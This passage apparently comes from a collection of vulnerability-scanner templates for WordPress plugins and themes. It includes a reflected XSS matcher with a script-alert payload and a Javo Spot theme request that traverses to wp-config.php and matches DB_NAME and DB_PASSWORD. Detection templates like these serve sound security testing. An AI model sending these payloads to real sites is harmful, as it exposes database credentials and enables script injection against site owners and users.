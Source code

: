 **Type - word**
- part - body
- words
    1. ?a">\<script>alert(1)\</script>&new-user-approve-settings

**Type - word**
- part - header
- words
    1. text/html

**Type - status**
- status
    1. 200

---
# WordPress Javo Spot Premium Theme - Unauthenticated Directory Traversal
## Description
- WordPress Javo Spot Premium Theme `wp-config` was discovered via local file inclusion. This file is remotely accessible and its content available for reading.
- severity - high
- tags - wordpress,backup,wpscan
## Requests
- Method - GET
### URL
- {{BaseURL}}/wp-admin/admin-ajax.php?jvfrm_spot_get_json&fn=../../wp-config.php&callback=jQuery
### Matchers

**Type - word**
- part - body
- words
    1. DB_NAME
    2. DB_PASSWORD
- condition - and

**Type - status**
- status
    1. 200

---
# WordPress Manage Calameo Publications 1.1.0 - Cross-Site Scripting
## Description
- WordPress Manage Calameo Publications 1.1.0 is vulnerable to reflected cross-site scripting via  thickbox_content.php and the attachment_id parameter.
